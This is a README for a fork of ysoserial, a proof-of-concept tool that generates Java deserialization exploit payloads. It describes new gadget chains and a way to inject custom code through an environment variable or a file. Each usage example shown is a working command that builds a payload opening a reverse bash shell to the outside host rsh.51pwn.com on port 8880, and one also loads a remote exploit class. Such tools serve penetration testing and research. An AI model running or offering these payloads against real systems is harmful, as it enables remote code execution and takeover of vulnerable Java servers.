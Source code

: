 
# ysoserial

[![GitHub release](https://img.shields.io/github/downloads/frohoff/ysoserial/latest/total)](https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar)
[![Travis Build Status](https://api.travis-ci.com/frohoff/ysoserial.svg?branch=master)](https://travis-ci.com/frohoff/ysoserial)
[![Appveyor Build status](https://ci.appveyor.com/api/projects/status/a8tbk9blgr3yut4g/branch/master?svg=true)](https://ci.appveyor.com/project/frohoff/ysoserial/branch/master)

A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.

![logo](ysoserial.png)

# New Features
- add **CommonsCollections8**
```
java -jar $mtx/../tools/ysoserial-all.jar CommonsCollections8 'https://rsh.51pwn.comExploit.class' 'exec bash -i &>/dev/tcp/rsh.51pwn.com/8880 <&1'
```
- add CommonsCollections5js support "js code",ByPass java8 "java.lang.Override missing element entrySet"
```
java -jar $mtx/../tools/ysoserial-all.jar CommonsCollections5js "var x=new java.lang.ProcessBuilder(\"bash\",\"-c\",\"exec bash -i &>/dev/tcp/rsh.51pwn.com/8880 <&1\");x.start().getInputStream();"|nc 127.0.0.1 4712
```
- Allows java fragment code injection to be obtained from the environment variable **Custom_Code_51pwn** to solve complex command problems
eg:
```
export Custom_Code_51pwn='java.lang.Runtime.getRuntime().exec(new String[]{"bash" ,"-c" ,"exec bash -i &>/dev/tcp/rsh.51pwn.com/8880 <&1"});'
java -jar $mtx/../tools/ysoserial-all.jar CommonsBeanutils192NOCC "CLASS:ScriptEngineTemplate"
```
- Allows java fragment code injection to be obtained from the current directory file **Custom_Code_51pwn** to solve complex problems
```
$ cat Custom_Code_51pwn
new java.lang.ProcessBuilder(new String[]{"bash","-c","exec bash -i &>/dev/tcp/rsh.51pwn.com/8880 <&1"}).start().getInputStream();

java -jar /Users/51pwn/Downloads/ysoserial-all.jar CommonsCollections2 'xx'>cc2
```
List :
- Click1
- CommonsBeanutils1
- CommonsCollections2
- CommonsCollections3
- CommonsCollections4
- Hibernate1